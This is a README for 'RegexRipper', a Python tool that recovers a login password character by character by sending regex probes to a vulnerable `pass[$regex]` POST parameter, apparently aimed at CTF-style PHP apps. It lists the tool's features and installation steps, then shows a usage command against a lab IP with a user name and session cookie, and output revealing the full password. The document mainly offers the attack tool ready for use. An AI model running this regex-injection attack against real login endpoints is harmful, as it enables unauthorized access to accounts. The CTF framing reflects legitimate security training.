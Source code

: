 ![logo](./logo.png)

**RegexRipper** — A small Python3 tool that discovers a password character-by-character against a vulnerable `pass[$regex]` POST parameter (common in CTF-style vulnerable PHP apps). The tool sends carefully escaped regex probes and detects matches by comparing server responses.

---

## Features

* Detects password length by probing `^.{n}$` patterns.
* Discovers password one character at a time using escaped regex patterns (`re.escape`) to avoid meta-character injection.
* Supports a custom character set (includes letters, digits and a set of special characters by default).
* Optional success-marker substring detection (instead of response-length heuristics).
* Optional request delay to be polite / avoid simple rate-limits.
* Uses `requests.Session` and can accept an initial cookie string (e.g. `PHPSESSID=...`).
* `colorit` used optionally for a nicer banner, but the script runs if `colorit` is not installed.

---

## Installation

```bash
git clone https://github.com/HIJACKED1/Regex_Ripper
cd Regex_Ripper
# Before Run 'install.sh' You Should be upldate Python3 and Pip 
chmod +x install.sh && ./install.sh
```

---

## Usage

```bash
python3 Regex_Ripper.py --url http://10.10.150.52/login.php --user pedro --cookie 'PHPSESSID=qkb3sb***********' --max-len 20


    ____                       ____  _                      
   / __ \___  ____ ____  _  __/ __ \(_)___  ____  ___  _____
  / /_/ / _ \/ __ `/ _ \| |/_/ /_/ / / __ \/ __ \/ _ \/ ___/
 / _, _/  __/ /_/ /  __/>  </ _, _/ / /_/ / /_/ /  __/ /    
/_/ |_|\___/\__, /\___/_/|_/_/ |_/_/ .___/ .___/\___/_/     
           /____/                 /_/   /_/                 
Drink Coffee                                        Author: HIJACKED1

Detecting password length (max 20)...
Password length found: 11
Starting character discovery...
Found so far: c
Found so far: co
Found so far: coo
Found so far: cool
Found so far: coolp
Found so far: coolpa
Found so far: coolpas
Found so far: coolpass
Found so far: coolpass1
Found so far: coolpass12
Found so far: coolpass123
[#] - Full password: coolpass123
```

---
## Secure

* Hash_Script : `c2ead9e3f624bf380f8ab7b7b6606ded`
